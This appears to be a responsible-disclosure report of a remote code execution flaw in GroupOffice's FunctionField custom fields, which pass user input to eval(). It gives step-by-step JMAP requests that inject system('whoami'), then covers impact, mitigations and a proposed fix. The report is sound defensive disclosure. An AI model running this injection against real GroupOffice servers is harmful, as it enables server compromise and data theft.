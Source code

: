 # GroupOffice Remote Code Execution Vulnerability Report

## Executive Summary

A critical Remote Code Execution (RCE) vulnerability has been discovered in GroupOffice that allows authenticated users with custom field management privileges to execute arbitrary PHP code on the server. This vulnerability affects the custom field functionality and can lead to complete server compromise.

## Vulnerability Details

**Product**: GroupOffice  
**Affected Component**: Custom Field Function Field Type  
**Vulnerability Type**: Remote Code Execution (RCE)  
**Severity**: Critical (CVSS 3.1: 9.1)  
**Authentication Required**: Yes (with `mayChangeCustomFields` permission)  
**CVE ID**: Pending Assignment  

## Technical Description

The vulnerability exists in the `FunctionField` class located at `/www/go/core/customfield/FunctionField.php`. The `dbToApi()` method uses PHP's `eval()` function to execute user-controlled input without proper sanitization:

```php
// Line 65 in FunctionField.php
eval("\$result = " . $f . ";");
```

The variable `$f` contains the value from `$this->field->getOption("function")`, which is directly controlled by users who can create or modify custom fields of type "FunctionField".

## Proof of Concept

### Step 1: Create a FieldSet
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["FieldSet/set", {
      "create": {
        "temp1": {
          "name": "Test FieldSet",
          "entity": "Contact"
        }
      }
    }, "c1"]
]
```

### Step 2: Create Malicious FunctionField
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Field/set", {
      "create": {
        "temp1": {
          "name": "Calculator Field",
          "fieldSetId": "1",
          "type": "FunctionField",
          "databaseName": "calc_field",
          "options": {
            "function": "system('whoami'); 42"
          },
          "sortOrder": 1
        }
      }
    }, "c1"]
]
```

### Step 3: Trigger Code Execution
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Contact/get", {
      "ids": null,
      "properties": ["id", "name", "customFields"]
    }, "c1"]
]
```

### Expected Result
The server executes the `whoami` command and returns the result in the custom field value, demonstrating successful code execution.

## Impact Assessment

- **Complete Server Compromise**: Attackers can execute arbitrary system commands
- **Data Exfiltration**: Access to sensitive files and database contents
- **Lateral Movement**: Potential to compromise other systems on the network
- **Service Disruption**: Ability to modify or delete critical system files
- **Privilege Escalation**: Depending on web server configuration

## Affected Versions

This vulnerability affects GroupOffice installations that include the custom fields functionality. The exact version range needs to be determined by the development team.

## Prerequisites for Exploitation

1. Valid authentication to GroupOffice
2. User account with `mayChangeCustomFields` permission
3. Access to entities that support custom fields (Contacts, Notes, Tasks, etc.)

## Mitigation Recommendations

### Immediate Actions
1. **Disable FunctionField Type**: Remove or disable the FunctionField custom field type
2. **Review Permissions**: Audit users with `mayChangeCustomFields` permissions
3. **Monitor Logs**: Check for suspicious custom field creation activities

### Long-term Fixes
1. **Remove eval() Usage**: Replace `eval()` with a safe mathematical expression parser
2. **Input Validation**: Implement strict validation for function field expressions
3. **Sandboxing**: If mathematical expressions are needed, use a sandboxed parser library
4. **Code Review**: Audit all instances of `eval()`, `system()`, `exec()` in the codebase

## Proposed Fix

Replace the vulnerable code in `FunctionField.php`:

```php
// VULNERABLE CODE (Line 65)
eval("\$result = " . $f . ";");

// SECURE ALTERNATIVE
try {
    // Use a safe mathematical expression evaluator
    $parser = new MathExpressionParser();
    $result = $parser->evaluate($f);
} catch (Exception $e) {
    $result = null;
}
```

## Timeline

- **Discovery Date**: 2025-08-28
- **Vendor Notification**: 2025-08-29
- **Vendor Response**: Yes
- **Fix Released**: Fixed in 25.0.47 and 6.8.136

## Credit

Discovered by: Noah "nxvh" Heraud
Contact: heraud260@gmail.com

## Responsible Disclosure

This vulnerability is being reported following responsible disclosure practices. We request:

1. Acknowledgment of this report within 5 business days
2. Regular updates on remediation progress
3. Credit in security advisories and release notes
4. Coordination on public disclosure timing

## References

- [GroupOffice Official Website](https://www.group-office.com/)
- [OWASP Code Injection Prevention](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-94: Improper Control of Generation of Code](https://cwe.mitre.org/data/definitions/94.html)
